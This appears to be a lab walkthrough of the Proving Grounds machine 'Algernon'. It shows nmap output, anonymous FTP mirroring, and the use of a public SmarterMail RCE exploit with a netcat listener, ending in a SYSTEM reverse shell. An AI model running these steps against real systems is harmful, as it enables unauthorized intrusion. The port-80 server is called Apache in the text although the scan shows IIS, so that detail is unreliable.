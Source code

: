 ```yaml
---
layout: post
title: PG | Algernon
subtitle: Algernon sure is a clever one.
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-16 07:42:49 UTC
Nmap scan report for 192.168.182.65
Host is up, received user-set (0.015s latency).
Scanned at 2023-10-16 07:42:49 EDT for 559s
Not shown: 65521 closed tcp ports (conn-refused)
PORT      STATE SERVICE       REASON  VERSION
21/tcp    open  ftp           syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-29-20  10:31PM       <DIR>          ImapRetrieval
| 10-16-23  04:41AM       <DIR>          Logs
| 04-29-20  10:31PM       <DIR>          PopRetrieval
|_04-29-20  10:32PM       <DIR>          Spool
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
5040/tcp  open  unknown       syn-ack
9998/tcp  open  http          syn-ack Microsoft IIS httpd 10.0
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /interface/root
|_http-server-header: Microsoft-IIS/10.0
| uptime-agent-info: HTTP/1.1 400 Bad Request\x0D
| Content-Type: text/html; charset=us-ascii\x0D
| Server: Microsoft-HTTPAPI/2.0\x0D
| Date: Mon, 16 Oct 2023 11:51:53 GMT\x0D
| Connection: close\x0D
| Content-Length: 326\x0D
| \x0D
| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">\x0D
| <HTML><HEAD><TITLE>Bad Request</TITLE>\x0D
| <META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>\x0D
| <BODY><h2>Bad Request - Invalid Verb</h2>\x0D
| <hr><p>HTTP Error 400. The request verb is invalid.</p>\x0D
|_</BODY></HTML>\x0D
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 9D7294CAAB5C2DF4CD916F53653714D5
17001/tcp open  remoting      syn-ack MS .NET Remoting services
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-10-16T11:51:56
|_  start_date: N/A
|_clock-skew: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 18291/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 31424/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 42389/udp): CLEAN (Timeout)
|   Check 4 (port 5332/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 559.07 seconds
~~~

# Service Enumeration

## FTP (TCP/21)

The target is hosting an FTP server that allows anonymous connections, after downloading all available files there were a series of log files, however after searching through them they did not grant us any useful information to further us.

~~~shell
┌──(kali㉿kali)-[~/…/Algernon/results/192.168.175.65/scans]
└─$ wget -m --no-passive ftp://anonymous:anonymous@192.168.182.65 
~~~

![Algernon](/assets/img/AlgernonPG(1).png)

## HTTP (TCP/80)

An Apache web server is running on port 80

![Algernon](/assets/img/AlgernonPG(2).png)

I ran a sub-directory fuzzing scan and checked the webpages source code, but neither revealed anything of use

## HTTP (TCP/9998)

A SmarterMail web mail server is being hosted on port 9998 on the target machine where we are prompted for login credentials, the default SmarterMail credentials admin:admin failed

![Algernon](/assets/img/AlgernonPG(3).png)

I searched for exploits for SmarterMail and found a Remote Code Execution (RCE) exploit

![Algernon](/assets/img/AlgernonPG(4).png)

I copied the exploit to my current directory, then changed the target IP and local IP/Port for the shell (I used port 445 to avoid firewall restrictions as it is used for SMB)

~~~shell
┌──(kali㉿kali)-[~/Desktop/Algernon]
└─$ cp /usr/share/exploitdb/exploits/windows/remote/49216.py .
~~~

![Algernon](/assets/img/AlgernonPG(5).png)

I started a netcat listener on port 445

~~~shell
┌──(kali㉿kali)-[~/Desktop/Algernon]
└─$ nc -nvlp 445 
listening on [any] 445 ...
~~~

I ran the exploit and recieved a root (system) shell!

~~~shell
┌──(kali㉿kali)-[~/Desktop/Algernon]
└─$ nc -nvlp 445 
listening on [any] 445 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.182.65] 49952
whoami
nt authority\system
PS C:\Windows\system32> 
~~~